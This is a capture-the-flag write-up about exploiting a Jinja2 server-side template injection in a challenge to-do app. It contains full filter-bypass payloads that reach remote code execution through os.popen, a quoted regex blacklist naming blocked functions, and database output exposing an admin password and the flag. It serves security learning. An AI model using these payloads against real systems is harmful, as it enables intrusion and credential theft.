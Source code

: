 >Author: @congon4tor#2334  
>  
>Every Capture the Flag competition has to have an obligatory to-do list application, right???
---------------------------------
Firstly, we are greeted with a sign-in page

![[Pasted image 20230616165433.png]]
Typical admin:admin guesses do not work, so after making a new account

![[Pasted image 20230616165611.png]]

I created a new task `asdf`, and this is the result. After exploring the POST parameters done during submission, as well as how things are altered when tasks are moved between active and completed, I did not see any interesting pattern. The most notable piece is that trashing my first task leads to `http://challenge.nahamcon.com:32053/delete?id=2`. However, `id=1` appears inaccessible. 

When I turned my attention to the greentext, I noticed in the url we see this as well:
`http://challenge.nahamcon.com:32053/?success=Task%20created`
Editing the success= component will affect what is being displayed in green. After playing for a bit, I noticed that this is actually vulnerable to SSTI:
`http://challenge.nahamcon.com:32053/?success={{7*7}}`

![[Pasted image 20230616154856.png]]

Doing actions such as `curl -v` did not give any insight on the framework being used, but exploring the SSTI a little further gave me the impression that this is likely Jinja2:
`http://challenge.nahamcon.com:32053/?success={{7*'7'}}``

![[Pasted image 20230616155028.png]]

Knowing this, I tried some simple enumerations before I find the true difficulty of this challenge:
`http://challenge.nahamcon.com:32053/?success={{config}}`

![[Pasted image 20230616170342.png]]

```
HACKER DETECTED!!!!  
The folowing are not allowed: [ {{\s*config\s*}},.*class.*,.*mro.*,.*import.*,.*builtins.*,.*popen.*,.*system.*,.*eval.*,.*exec.*,.*\..*,.*\[.*,.*\].*,.*\_\_.* ]
```

It wasn't obvious to me at first, but the real trouble is that any command containing a dot, or square brackets, is blocked.
After spending a good amount of time looking for ways to bypass the filter, I eventually ran into [this post](https://hackmd.io/@Chivato/HyWsJ31dI). Importantly, the writer manages to create a payload to bypass ".","\_", "[]", and even "|join". 

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

Our blacklist also includes some functions that were used, which I bypassed by breaking between quotes (popen -> po''pen).

```
http://challenge.nahamcon.com:32053/?success={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuil%27%27tins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimp%27%27ort\x5f\x5f%27)(%27os%27)|attr(%27po%27%27pen%27)(%27id%27)|attr(%27read%27)()}}
```

![[Pasted image 20230616171249.png]]

We have successful code execution!! Now all that remains is to find the flag.

After some enumeration of where the flag might be, I began to think that perhaps there isn't a `flag.txt` file after all. When I check the contents of the cwd:
```bash
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 .
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 ..
drwxr-xr-x    1 uwsgi    uwsgi         4096 Jun 16 20:55 DB
-rw-r--r--    1 root     root           159 Jun 14 17:53 app.ini
-rwxr-xr-x    1 root     root          6693 Jun 14 17:53 app.py
-rw-r--r--    1 root     root           792 Jun 14 17:53 models.py
-rw-r--r--    1 root     root           138 Jun 14 17:53 requirements.txt
drwxr-xr-x    2 root     root          4096 Jun 14 17:53 templates
```
I notice the DB folder, and I recall that my task id's started at 2. Perhaps the flag is in admin's task list, for id number 1?

Looking inside the DB folder:
```
drwxr-xr-x    1 uwsgi    uwsgi         4096 Jun 16 20:55 .
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 ..
-rw-r--r--    1 uwsgi    uwsgi        16384 Jun 16 20:55 db.sqlite
```

Unfortunately, opening a sqlite file is a bit tricky with the RCE that I am currently using. Moreover, dots are still blacklisted. It is fortunate that this folder only has one file, so we can use wildcard * to select `db.sqlite` without using dot. When I try `cat /usr/src/app/DB/*`:

![[Pasted image 20230616172048.png]]

It seems there are issues when trying to output invalid characters, causing the internal server error. As a last attempt, I decided to try `strings`, which should only output legitimate utf-8 friendly characters. However, it is not guaranteed that the flag could remain intact for this.

Request:
```
view-source:http://challenge.nahamcon.com:32053/?success={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuil%27%27tins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimp%27%27ort\x5f\x5f%27)(%27os%27)|attr(%27po%27%27pen%27)(%27strings%20/usr/src/app/DB/db*%27)|attr(%27read%27)()}}
```

Output:
```bash
tabletasktask
CREATE TABLE task (
	id INTEGER NOT NULL, 
	name VARCHAR(100), 
	completed BOOLEAN, 
	user_id INTEGER, 
	PRIMARY KEY (id), 
	CHECK (completed IN (0, 1)), 
	FOREIGN KEY(user_id) REFERENCES user (id)
tableuseruser
CREATE TABLE user (
	id INTEGER NOT NULL, 
	username VARCHAR(40), 
	password VARCHAR(50), 
	PRIMARY KEY (id), 
	UNIQUE (username)
indexsqlite_autoindex_user_1user
asdfasdf
-adminT2dUL6Z#S9KH%x%i
asdf
	admin
asdf
	flag{7b5b91c60796488148ddf3b227735979}
```

Very foturnately, the flag not only survived but is very readable!
`flag{7b5b91c60796488148ddf3b227735979}`

As a side note, we have the password for `admin` now too, and can log in.
`admin:T2dUL6Z#S9KH%x%i`

![[Pasted image 20230616172852.png]]

